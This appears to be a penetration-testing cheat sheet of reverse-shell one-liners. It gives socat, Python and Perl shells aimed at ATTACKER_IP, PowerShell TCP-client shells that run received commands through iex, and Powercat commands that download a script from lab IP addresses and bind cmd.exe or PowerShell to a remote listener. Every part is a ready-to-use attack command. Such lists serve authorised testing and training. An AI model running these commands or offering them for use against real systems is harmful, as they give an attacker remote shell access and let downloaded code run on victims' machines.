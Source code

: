 ```
# Encrypted reverse shell
socat OPENSSL:ATTACKER_IP:4444,verify=0 EXEC:/bin/bash,pty,stderr,setsid,sigint,sane

python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("ATTACKER_IP",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'

perl -e 'use Socket;$i="ATTACKER_IP";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```


## Powershell

One Liners:
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $st
ream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ('. {' + $data + '} *>&1') | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe%20-enc%20<base64 encoded payload>
```

```
powershell $client = New-Object System.Net.Sockets.TCPClient("192.168.45.205",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Powercat:

```
powershell -c "& {iex (Get-Content 'C:\Windows\Temp\powercat.ps1' -Raw); powercat -c 192.168.45.216 -p 14080 -e c:\windows\system32\cmd.exe}"

#or

powershell -c "iex (Get-Content 'C:\Windows\Temp\powercat.ps1' -Raw); powercat -c 192.168.45.216 -p 14080 -e c:\windows\system32\cmd.exe"

#or

powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.191/powercat.ps1');powercat -c 192.168.45.191 -p 443 -e powershell

#or

C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.45.168/powercat.ps1'); powercat -c 192.168.45.168 -p 443 -e cmd.exe
#or
cmd /c "powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.45.197/powercat.ps1'); powercat -c 192.168.45.197 -p 443 -e cmd.exe"
```
